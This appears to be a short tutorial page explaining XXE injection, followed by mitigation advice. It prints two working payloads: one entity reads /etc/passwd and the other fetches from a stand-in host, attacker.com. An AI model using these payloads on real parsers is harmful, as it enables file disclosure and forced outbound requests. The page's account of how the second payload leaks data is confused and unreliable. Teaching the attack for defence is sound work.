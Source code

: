 # 🟨 XXE - XML External Entity Injection

XXE (XML External Entity) Injection is a type of attack against web applications that parse XML input. It occurs when an attacker can influence the processing of XML input, leading to disclosure of confidential data, denial of service, server-side request forgery (SSRF), port scanning from the perspective of the machine where the parser is located, and other system impacts.

Here's an explanation of XXE with an example:

Suppose you have a web application that accepts XML input to process user data:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ELEMENT data ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

In this example, the XML document defines an external entity named `xxe` that references the file `/etc/passwd`. When the XML parser processes the document, it resolves the external entity `xxe` and substitutes its value with the contents of the specified file (`/etc/passwd`).

An attacker can exploit this vulnerability by submitting a malicious XML input containing an external entity that references sensitive files, such as system configuration files or application source code.

For example, an attacker could craft a malicious XML input like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ELEMENT data ANY>
  <!ENTITY xxe SYSTEM "http://attacker.com/xxe.txt">
]>
<data>&xxe;</data>
```

In this case, the attacker hosts a file (`xxe.txt`) on their server (`http://attacker.com/xxe.txt`) containing sensitive information. When the vulnerable web application processes the XML input, it fetches the contents of the external entity `xxe` from the attacker's server and includes it in the response, potentially leaking sensitive data to the attacker.

Additionally, XXE vulnerabilities can also lead to other types of attacks, such as SSRF (Server-Side Request Forgery) and DoS (Denial of Service), depending on the capabilities of the XML parser and the context in which it is used.

To mitigate XXE vulnerabilities, developers should:

* Disable external entity processing in XML parsers or use secure XML processing libraries that prevent XXE attacks.
* Validate and sanitize XML input to ensure it does not contain external entity references or other potentially malicious content.
* Use whitelists or allowlists to restrict the types of XML elements and attributes that the application can process.
* Perform security testing, including vulnerability scanning and penetration testing, to identify and remediate XXE vulnerabilities in web applications.

